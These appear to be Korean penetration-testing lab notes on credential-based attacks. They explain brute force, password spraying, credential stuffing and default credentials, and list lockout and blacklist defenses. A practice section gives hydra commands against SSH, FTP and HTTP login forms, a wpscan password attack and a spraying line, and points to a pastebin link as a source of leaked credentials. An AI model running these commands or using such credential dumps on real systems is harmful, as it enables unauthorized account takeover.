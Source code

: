 # 계정 정보 기반 공격

- 네트워크 서비스 혹은 운영체제에 존재하는 유저 계정 정보를 기반으로 하는 공격

**비밀번호 브루트포스 공격 (Password Bruteforce Attack)**
- 여러 번의 로그인을 통해 모든 조합의 비밀번호를 시도
- 사전 공격 (Dictionary Attack)**: 이미 존재하는 단어 사전을 이용한 브루트포스

**비밀번호 스프레이 공격 (Password Spraying Attack)**
- 여러 계정을 향해 자주 사용되는 비밀번호를 한 번씩 시도

**크레덴셜 스터핑 (Credential Stuffing)**
- 이전에 유출한 유저 이름 및 비밀번호를 다른 대상에 시도

**기본 계정 (Default Credentials/Passwords)**
- 프레임웤, 버전 등이 유출되어 기본적으로 존재하는 유저 이름과 비밀번호를 시도
	
## 계정 정보 기반 공격 - 주의점

- **계정 잠금 (Account Lockout):**  
  잘못된 로그인 시도 후 사용자 계정에 대한 접근을 일시적으로 차단하는 보안 제어

- **호스트 기반 블랙리스트 (Host Blacklist):**  
  공격자 호스트의 다양한 특성(IP, Geolocation, User Behavior 등)을 기반으로 접근을 차단함

- **비밀번호 정책 (Password Policy):**  
  비밀번호 길이, 계정 잠금 임계치, 계정 잠금 시간 등을 설정해놓은 정책을 사전에 고객사에 요청
  - BNPT & Active Directory BAPT

---

> 따라서, 실무에서는 무작위대입 공격보다는 스프레이 및 크레덴셜 스터핑 공격 지향

# 실습 - 계정 정보 기반 공격

## (준비)사용자 이름 사전
```bash
echo 'root\nchoi\nwordpress\nroot\neditor\nanonymous' > users.txt
```
## (준비)비밀번호 사전
```bash
sudo gzip -d /usr/share/wordlists/rockyou.txt.gz
cat /usr/share/wordlists/rockyou.txt | head -50 > pass.txt
```
## SSH - 브루트포스
```bash
hydra -L users.txt -P pass.txt ssh://<ip> -V -s <port>
```
## FTP - 브루트포스
```bash
hydra -L users.txt -P pass.txt ftp://<ip> -V -s <port>
```

## HTTP 로그인 - 브루트포스
```bash
hydra -L users.txt -P pass.txt <ip> -s <port> http-post-form "/<endpoint>:username=^USER^&password=^PASS^:F=<error-message>" -V
```
- WordPress 환경이라면 아래로 가능
`wpscan --url <ip>:<port> --password pass.txt




## 비밀번호 스프레이

```bash
hydra -L users.txt -p 'Winter2023!' ssh://<ip> -V
```
- 사용자 이름 사전과, Winter2023! 으로 공격



## 크레덴셜 스터핑
```
https://pastebin.com/gqZZQqsh:v8PupCipje 의 정보들을 사용
```











